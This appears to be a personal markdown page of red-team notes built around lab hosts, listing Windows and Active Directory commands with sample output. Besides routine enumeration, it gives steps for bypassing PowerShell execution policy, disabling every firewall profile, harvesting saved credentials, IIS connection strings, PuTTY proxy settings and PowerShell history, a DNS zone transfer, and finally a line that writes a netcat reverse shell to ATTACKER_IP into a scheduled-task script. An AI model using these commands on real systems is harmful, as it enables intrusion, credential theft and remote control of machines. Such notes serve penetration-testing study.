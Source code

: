 # Red Teaming Notes

---------------------------------

|Version | Last Updated | copyright
----|-----|----
1.0.3 | 08/03/23 | [@prakashchand72](https://forsec.me/whoami)

----------------------------------

**bypassing script execution**

```css
powershell -ex bypass -File .\sample.ps1
```


**can also be come with**

```sh
set-executionpolicy -scope currentuser remotesigned
```

**The following PowerShell command is to get all active directory user accounts. Note that we need to use  -Filter argument.**

```java
PS C:\Users\thm> Get-ADUser  -Filter *
DistinguishedName : CN=Administrator,CN=Users,DC=thmredteam,DC=com

Enabled           : True
GivenName         :
Name              : Administrator
ObjectClass       : user
ObjectGUID        : 4094d220-fb71-4de1-b5b2-ba18f6583c65
SamAccountName    : Administrator
SID               : S-1-5-21-1966530601-3185510712-10604624-500
Surname           :
UserPrincipalName :
PS C:\Users\thm>
```

_Using the SearchBase option, we specify a specific Common-Name CN in the active directory. For example, we can specify to list any user(s) that part of Users._

```java
PS C:\Users\thm> Get-ADUser -Filter * -SearchBase "CN=Users,DC=THMREDTEAM,DC=COM"


DistinguishedName : CN=Administrator,CN=Users,DC=thmredteam,DC=com
Enabled           : True
GivenName         :
Name              : Administrator
ObjectClass       : user
ObjectGUID        : 4094d220-fb71-4de1-b5b2-ba18f6583c65
SamAccountName    : Administrator
SID               : S-1-5-21-1966530601-3185510712-10604624-500
Surname           :
UserPrincipalName :

```

**Check antivirus which and how many**

```cmd
PS C:\Users\thm> wmic /namespace:\\root\securitycenter2 path antivirusproduct
```
_can also be done with another command_ 

```cmd
PS C:\Users\thm> Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct


displayName              : Bitdefender Antivirus
instanceGuid             : {BAF124F4-FA00-8560-3FDE-6C380446AEFB}
pathToSignedProductExe   : C:\Program Files\Bitdefender\Bitdefender Security\wscfix.exe
pathToSignedReportingExe : C:\Program Files\Bitdefender\Bitdefender Security\bdservicehost.exe
productState             : 266240
timestamp                : Wed, 15 Dec 2021 12:40:10 GMT
PSComputerName           :

displayName              : Windows Defender
instanceGuid             : {D58FFC3A-813B-4fae-9E44-DA132C9FAA36}
pathToSignedProductExe   : windowsdefender://
pathToSignedReportingExe : %ProgramFiles%\Windows Defender\MsMpeng.exe
productState             : 393472
timestamp                : Fri, 15 Oct 2021 22:32:01 GMT
PSComputerName           :
```


**To check status of antivirus**

_for specific output like realtime_

```cmd
PS C:\Users\thm> Get-MpComputerStatus | select RealTimeProtectionEnabled  (mppreference if not worked ) 

RealTimeProtectionEnabled
-------------------------
                    False
```

_for all output of antivirus_

```cmd
PS C:\Users\thm> Get-MpComputerStatus
```

**for firewall**

```cmd
PS C:\Users\thm> Get-NetFirewallProfile | Format-Table Name, Enabled

Name    Enabled
----    -------
Domain     True
Private    True
Public     True
```

_to disable the firewall_

```cmd
PS C:\Windows\system32> Set-NetFirewallProfile -Profile Domain, Public, Private -Enabled False
PS C:\Windows\system32> Get-NetFirewallProfile | Format-Table Name, Enabled
---- -------
Domain False
Private False
Public False
```

_to get firewall rules_

```java
PS C:\Users\thm> Get-NetFirewallRule | select DisplayName, Enabled, Description

DisplayName                                                                  Enabled
-----------                                                                  -------
Virtual Machine Monitoring (DCOM-In)                                           False
Virtual Machine Monitoring (Echo Request - ICMPv4-In)                          False
Virtual Machine Monitoring (Echo Request - ICMPv6-In)                          False
Virtual Machine Monitoring (NB-Session-In)                                     False
Virtual Machine Monitoring (RPC)                                               False
SNMP Trap Service (UDP In)                                                     False
SNMP Trap Service (UDP In)                                                     False
Connected User Experiences and Telemetry                                        True
Delivery Optimization (TCP-In)                                                  True
```

**To see avaiable event log option through powershell**

```java
PS C:\Users\thm> Get-EventLog -List

  Max(K) Retain OverflowAction        Entries Log
  ------ ------ --------------        ------- ---
     512      7 OverwriteOlder             59 Active Directory Web Services
  20,480      0 OverwriteAsNeeded         512 Application
     512      0 OverwriteAsNeeded         170 Directory Service
 102,400      0 OverwriteAsNeeded          67 DNS Server
  20,480      0 OverwriteAsNeeded       4,345 System
  15,360      0 OverwriteAsNeeded       1,692 Windows PowerShell
```

**To get all the installed application and it's version**

```java
PS C:\Users\thm> wmic product get name,version
Name                                                            Version
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910     14.28.29910
AWS Tools for Windows                                           3.15.1248
Amazon SSM Agent                                                3.0.529.0
aws-cfn-bootstrap                                               2.0.5
AWS PV Drivers                                                  8.3.4
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29910  14.28.29910
```

**To see hidden directory/files**

```cmd
PS C:\Users\thm> Get-ChildItem -Hidden -Path C:\Users\kkidd\Desktop\
```


**To check windows services**

```cmd
net start
```

**To Listening ports**

```cmd
netstat -aon
```

_you can also use `findstr` to find specific port on listening like `netstat -aon | findstr "22"`_


**To find which service on path running on port**

```cmd
tasklist /svc /FI "PID eq <pidnumber>"
```

**To check users** 

```cmd
net user
```

_You can discover the available groups using `net group` if the system is a Windows Domain Controller or `net localgroup` otherwise,__

**DNS Zone Transer**

```bash
dig -t AXFR redteam.thm @10.10.243.185
```

**to check avaible shamba share**

    net share


**to check network event**

```bash
/opt/snmpcheck/snmpcheck.rb $IP -c COMMUNITY_STRING
```

**To check powershell history / remember to use below command on command prompt only**

```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

**To check saved Credentials**

```cmd
cmdkey /list
```

**and to run saved crentials user as cmd type**

```cmd
runas /savecred /user:userfromsavedcreds cmd.exe
```

**IIS configuraiton ( web server to see saved creds)** 

```cmd
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

**Retrieve Credentials from Software: PuTTY**

```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

**To Check Permission of file**

```cmd
icacls c:\tasks\schtask.bat
```

**To seee the schedular tasks**

```cmd
schtasks
```

**To add to schedular task if have approprite permmsion** 

```cmd
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

